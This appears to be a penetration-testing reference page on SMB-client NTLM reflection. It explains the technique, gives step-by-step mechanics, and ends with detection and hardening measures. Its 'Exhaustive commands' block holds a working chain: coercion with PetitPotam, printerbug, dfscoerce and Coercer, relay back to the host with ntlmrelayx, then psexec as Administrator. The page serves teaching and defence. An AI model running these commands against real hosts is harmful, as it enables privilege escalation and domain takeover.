

# SMB client reflection (NTLM reflection)

### Affected object / protocol
**SMB client** on a Windows host; the affected AD object is the **privileged service’s authentication** (often `SYSTEM` on the target). The primitive is **NTLM reflection** — coercing a privileged service to authenticate to an attacker SMB server that redirects the authentication back to the **same host’s SMB service**.

### Concept (deep)
NTLM does not provide mutual authentication. If a privileged service (running as `SYSTEM` or a machine account) can be coerced to authenticate to an attacker-controlled SMB listener, and that listener can reflect the authentication back to a service on the **same host** that accepts NTLM without signing/EPA, the attacker obtains a privileged session **on that host**. The 2025 SMB-client reflection flaw expands the conditions under which this loop succeeds; it pairs with **ADIDNS / CNAME relay** and coercion primitives (PetitPotam, DFSCoerce, PrinterBug).

### Attack flow (Mermaid)


### Step-by-step mechanics
1. **Coerce** a privileged service on the target to authenticate outbound (EFSRPC, RPRN, DFSNM).
2. **Capture** the NTLM negotiation on an attacker SMB listener.
3. **Reflect** the authentication back to the target’s own SMB service (loopback).
4. **Execute** commands with the reflected privilege.

### Exhaustive commands
```bash
# ── Coercion (choose the method the host responds to) ──────────────────
coercer coerce -u user -p pass -t 10.10.10.5 -l 10.10.10.99
python3 PetitPotam.py 10.10.10.99 10.10.10.5
python3 printerbug.py 'corp.local/user:pass'@10.10.10.5 10.10.10.99
python3 dfscoerce.py -u user -p pass 10.10.10.99 10.10.10.5

# ── Reflection / relay ────────────────────────────────────────────────
ntlmrelayx.py -t smb://10.10.10.5 -smb2support -socks
# Then interact with the SOCKS proxy:
proxychains impacket-psexec corp.local/Administrator@10.10.10.5
```

### Impact
- **Local SYSTEM / privileged session** on the coerced host.
- When the host is a **DC**, the reflected identity is the **DC machine account**, which holds DCSync rights — full domain compromise.

### Detection and defensive measures
- **Alert** on SMB authentication where **client IP == server IP** (reflection loop).
- **Enforce SMB signing** and **disable NTLM** where possible; enable `RestrictNTLM` policies.
- **Patch** the 2025 SMB-client reflection fixes; disable the Print Spooler on DCs; patch PetitPotam/DFSCoerce vectors.
- **Network segmentation** to prevent outbound SMB from sensitive hosts.

---
